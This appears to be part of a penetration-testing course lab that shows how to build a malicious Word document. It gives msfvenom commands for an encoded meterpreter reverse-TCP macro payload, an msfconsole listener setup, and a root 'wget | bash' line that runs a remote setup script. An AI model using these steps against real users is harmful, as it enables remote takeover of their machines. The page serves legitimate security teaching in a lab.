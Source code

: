 1.   In Kali, run the following command (all one line):

          msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=virbr1 LPORT=7777 -e x86/shikata_ga_nai -f vba-exe > word-macro-exploit

     This will save the exploit to a file called `word-macro-exploit`
2.   Open `word-macro-exploit` using `leafpad`, and read the beginning of the output. It explains that the output is
     divided into two sections: A "Macro" section and a "Payload" section.

     We will need to put the "Macro" section into a VBA module attached to a Word document,
     and the "Payload" section into the body text of the Word document.

     The "Payload" is byte-code that the macro will read and write out into a file on the
     victim machine, after which it will execute the newly-created executable.

3.   In Kali, use `msfconsole` to spin up a listener that will wait for a connection from our Word meterpreter payload:

          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set LPORT 7777
          set LHOST virbr1
          set ExitOnSession false
          exploit -j

4.   Install Word into the Windows virtual machine.

     The version of Word that gets installed on the lab virtual machine only works for 5 days without a product key.
     The first time that you install windows to your virtual machine, you can run the following from kali as root:

         cd /root/vagrant-boxes/lab-windows-2019-vuln/
         git pull
         vagrant up
         vagrant provision --provision-with install-word

     The installation process takes about two minutes.

     If your activation grade period expires and you still need access to Word on your Windows VM, you can get a fresh start
     by running the full vagrant destroy-up-provision cycle again, via running the following script **as root**:

         wget -O - https://raw.githubusercontent.com/deargle/kali-xfce-gcp-qemu-packer/master/kali-pentest-lab/update-server2019.sh | bash

1.   When the script finishes, open Word on Windows. On the screen `Sign in to set up Office`, click `I don't want to sign in or create an account`. Exit the Window requesting an Office product key.

1.   Enable the Developer tool access button on the Word ribbon:

     * From Word's `File` tab, select `Options`.
     * Then, select “Customize Ribbon” from the left-hand side menu
     * Check the `Developer` checkbox (see screenshot below).

     {% include lab-image.html image='lab_11_8.png' width="70%" %}
